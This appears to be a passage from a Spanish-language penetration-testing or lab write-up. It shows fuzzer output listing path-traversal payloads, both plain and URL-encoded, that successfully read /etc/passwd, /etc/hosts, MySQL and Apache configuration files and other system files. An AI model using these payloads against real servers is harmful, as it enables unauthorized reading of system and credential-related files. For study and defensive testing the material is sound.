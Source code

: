 Tenemos estas posivildidades de enumerar los archivos internos del sistema:
```bash
000000016:   200        26 L     34 W       1307 Ch     "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" 
000000020:   200        26 L     34 W       1307 Ch     "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"               
000000023:   200        26 L     34 W       1307 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"                                            
000000135:   200        1 L      6 W        37 Ch       "/etc/fstab"                                                                        
000000138:   200        47 L     47 W       603 Ch      "/etc/group"                                                                        
000000206:   200        8 L      21 W       262 Ch      "../../../../../../../../../../../../etc/hosts"                                     
000000205:   200        8 L      21 W       262 Ch      "/etc/hosts"                                                                        
000000208:   200        10 L     57 W       411 Ch      "/etc/hosts.allow"                                                                  
000000209:   200        17 L     111 W      711 Ch      "/etc/hosts.deny"                                                                   
000000121:   200        225 L    1107 W     7178 Ch     "/etc/apache2/apache2.conf"                                                         
000000129:   200        4 L      36 W       270 Ch      "/etc/apt/sources.list"                                                             
000000261:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../../../../../../../etc/passwd"               
000000248:   200        29 L     174 W      1126 Ch     "/etc/mysql/my.cnf"                                                                 
000000262:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../../../../../../etc/passwd"                  
000000263:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../../../../../etc/passwd"                     
000000254:   200        26 L     34 W       1307 Ch     "/../../../../../../../../../../etc/passwd"                                         
000000257:   200        26 L     34 W       1307 Ch     "/etc/passwd"                                                                       
000000249:   200        19 L     103 W      767 Ch      "/etc/netconfig"                                                                    
000000250:   200        20 L     65 W       526 Ch      "/etc/nsswitch.conf"                                                                
000000258:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../../../../../../../../../../etc/passwd"      
000000259:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../../../../../../../../../etc/passwd"         
000000260:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../../../../../../../../etc/passwd"            
000000253:   200        26 L     34 W       1307 Ch     "/./././././././././././etc/passwd"                                                 
000000237:   200        2 L      5 W        26 Ch       "/etc/issue"                                                                        
000000236:   200        353 L    1042 W     8139 Ch     "/etc/init.d/apache2"                                                               
000000311:   200        26 L     34 W       1307 Ch     "../../../../../../etc/passwd&=%3C%3C%3C%3C"                                        
000000264:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../../../../etc/passwd"                        
000000270:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../etc/passwd"                                          
000000266:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../../etc/passwd"                              
000000268:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../etc/passwd"                                    
000000271:   200        26 L     34 W       1307 Ch     "../../../../../../../../../etc/passwd"                                             
```